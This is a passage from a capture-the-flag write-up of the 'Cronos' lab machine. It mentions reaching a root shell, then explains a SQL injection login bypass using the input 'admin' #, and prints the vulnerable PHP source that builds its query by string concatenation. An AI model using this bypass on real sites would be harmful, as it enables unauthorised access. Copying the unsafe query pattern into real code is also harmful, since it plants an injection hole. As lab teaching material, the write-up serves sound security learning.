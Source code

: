 

After about a minute we get a root shell!

![root](/images/cronos/root.png)

**Miscellaneous** 

Vulnerable MYSQL Statement in index.php
No input validation, parametized queries nor quote escape functions used for the username field 

```
$sql = "SELECT id FROM users WHERE username = '".$myusername."' and password = '".$mypassword."'";
With our unput becomes:
$sql = "SELECT id FROM users WHERE username = 'admin' # ".$myusername."' and password = '".$mypassword."'";
```

The rest of the statement gets ignored!


```
www-data@cronos:/var/www/admin$ cat index.php 
<?php
//ini_set('display_errors', 1);
//ini_set('display_startup_errors', 1);
//error_reporting(E_ALL);
   include("config.php");
   session_start();
   
   if($_SERVER["REQUEST_METHOD"] == "POST") {
      // username and password sent from form 
      
      $myusername = $_POST['username'];
      $mypassword = md5($_POST['password']); 

      $sql = "SELECT id FROM users WHERE username = '".$myusername."' and password = '".$mypassword."'";
      $result = mysqli_query($db,$sql);
      $row = mysqli_fetch_array($result,MYSQLI_ASSOC);
      //$active = $row['active'];
      $count = mysqli_num_rows($result);
      
      // If result matched $myusername and $mypassword, table row must be 1 row

      if($count == 1) {
         //session_register("myusername");
         $_SESSION['login_user'] = $myusername;
         
         header("location: welcome.php");
      }else {
         $error = "Your Login Name or Password is invalid";
      }
   }
```